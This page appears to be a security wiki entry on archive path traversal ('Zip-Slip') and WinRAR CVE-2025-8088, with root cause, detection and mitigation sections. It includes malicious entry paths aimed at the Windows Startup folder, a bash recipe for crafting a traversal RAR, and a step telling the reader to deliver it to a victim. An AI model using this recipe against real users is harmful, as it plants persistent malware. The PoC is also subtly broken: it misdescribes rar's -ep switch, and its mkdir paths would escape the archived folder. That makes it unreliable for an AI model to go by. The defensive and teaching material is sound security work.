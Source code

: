# Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)


## Overview

Many archive formats (ZIP, RAR, TAR, 7-ZIP, etc.) allow each entry to carry its own **internal path**. When an extraction utility blindly honours that path, a crafted filename containing `..` or an **absolute path** (e.g. `C:\Windows\System32\`) will be written outside of the user-chosen directory.  
This class of vulnerability is widely known as *Zip-Slip* or **archive extraction path traversal**.

Consequences range from overwriting arbitrary files to directly achieving **remote code execution (RCE)** by dropping a payload in an **auto-run** location such as the Windows *Startup* folder.

## Root Cause

1. Attacker creates an archive where one or more file headers contain:
   * Relative traversal sequences (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
   * Absolute paths (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Victim extracts the archive with a vulnerable tool that trusts the embedded path instead of sanitising it or forcing extraction beneath the chosen directory.
3. The file is written in the attacker-controlled location and executed/loaded next time the system or user triggers that path.

## Real-World Example – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR for Windows (including the `rar` / `unrar` CLI, the DLL and the portable source) failed to validate filenames during extraction.  
A malicious RAR archive containing an entry such as:

```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
```
would end up **outside** the selected output directory and inside the user’s *Startup* folder. After logon Windows automatically executes everything present there, providing *persistent* RCE.

### Crafting a PoC Archive (Linux/Mac)

```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
```Options used:
* `-ep`  – store file paths exactly as given (do **not** prune leading `./`).

Deliver `evil.rar` to the victim and instruct them to extract it with a vulnerable WinRAR build.

### Observed Exploitation in the Wild

ESET reported RomCom (Storm-0978/UNC2596) spear-phishing campaigns that attached RAR archives abusing CVE-2025-8088 to deploy customised backdoors and facilitate ransomware operations.

## Detection Tips

* **Static inspection** – List archive entries and flag any name containing `../`, `..\\`, *absolute paths* (`C:`) or non-canonical UTF-8/UTF-16 encodings.
* **Sandbox extraction** – Decompress into a disposable directory using a *safe* extractor (e.g., Python’s `patool`, 7-Zip ≥ latest, `bsdtar`) and verify resulting paths stay inside the directory.
* **Endpoint monitoring** – Alert on new executables written to `Startup`/`Run` locations shortly after an archive is opened by WinRAR/7-Zip/etc.

## Mitigation & Hardening

1. **Update the extractor** – WinRAR 7.13 implements proper path sanitisation. Users must manually download it because WinRAR lacks an auto-update mechanism.
2. Extract archives with the **“Ignore paths”** option (WinRAR: *Extract → "Do not extract paths"*) when possible.
3. Open untrusted archives **inside a sandbox** or VM.
4. Implement application whitelisting and restrict user write access to auto-run directories.

## Additional Affected / Historical Cases

* 2018 – Massive *Zip-Slip* advisory by Snyk affecting many Java/Go/JS libraries.
* 2023 – 7-Zip CVE-2023-4011 similar traversal during `-ao` merge.
* Any custom extraction logic that fails to call `PathCanonicalize` / `realpath` prior to write.

## References

- [[https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/|BleepingComputer – WinRAR zero-day exploited to plant malware on archive extraction]]
- [[https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5|WinRAR 7.13 Changelog]]
- [[https://snyk.io/research/zip-slip-vulnerability|Snyk – Zip Slip vulnerability write-up]]


